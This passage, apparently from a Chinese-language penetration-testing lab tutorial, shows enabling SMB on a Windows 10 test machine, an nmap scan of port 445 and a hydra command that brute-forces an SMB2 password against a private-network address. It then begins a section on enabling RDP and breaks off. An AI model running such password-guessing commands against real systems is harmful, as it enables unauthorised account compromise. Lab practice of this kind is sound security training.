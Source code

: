 开启 Windows 10 的 SMB 服务

nmap 扫描 445 端口

```
┌──(root㉿Kali-24)-[~/thc-hydra-master]
└─# nmap 192.168.1.102 -p 445
```

爆破（需指定 SMB 版本）

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l windows -P [file_name].txt smb2://192.168.1.102 -vV
```

> 成功爆破

### 2.2.2 RDP

运行 sysdm.cpl

![运行 sysdm.cpl](./../../../images/%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3/%E6%9C%AA%E5%BD%92%E7%BA%B3/%E8%BF%90%E8%A1%8C%20sysdm.cpl.png)

开启 RDP 服务（家庭版无此功能）
